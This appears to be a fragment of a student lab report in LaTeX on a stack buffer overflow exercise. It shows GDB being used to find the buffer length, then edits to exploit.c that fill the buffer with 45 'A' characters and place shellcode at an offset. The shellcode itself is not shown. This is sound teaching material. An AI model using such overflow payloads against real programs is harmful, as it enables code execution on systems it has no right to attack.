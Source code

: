 \documentclass[a4paper,11pt]{article}
\begin{document}
\begin{figure}[h]
    \centering
    \hfill
    \hfill
    \caption{GDB debug for the stack}\label{fig:task10-1}
\end{figure}

then, edit the \verb|exploit.c| as Codeblock \ref{lst:task3.10-2} and run the GDB again figured as \ref{fig:task10-2} for figuring out the memory length.
\begin{lstlisting}[caption={GDB debug for the stack},label={lst:task3.10-2},language=C,breaklines=true]
/* You need to fill the buffer with appropriate contents here */
strcpy(buffer, "AAAA");
\end{lstlisting} 

\begin{figure}[h]
    \centering
       \includegraphics[width=0.7\textwidth]{figures/task10/task10.3.png}
    \caption{Execute Result}\label{fig:task10-2}
\end{figure}

Obviously, we should fill out the buffer with $45$ characters and add a $SHIFT  > 45 + 4$ to the shellcode as Codeblock \ref{lst:task3.10-3}.
\begin{lstlisting}[caption={fill the buffer},label={lst:task3.10-3},language=C,breaklines=true]
/* You need to fill the buffer with appropriate contents here */
strcpy(buffer, "AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA");
strcpy(buffer+50,shellcode);
\end{lstlisting} 
\end{document}
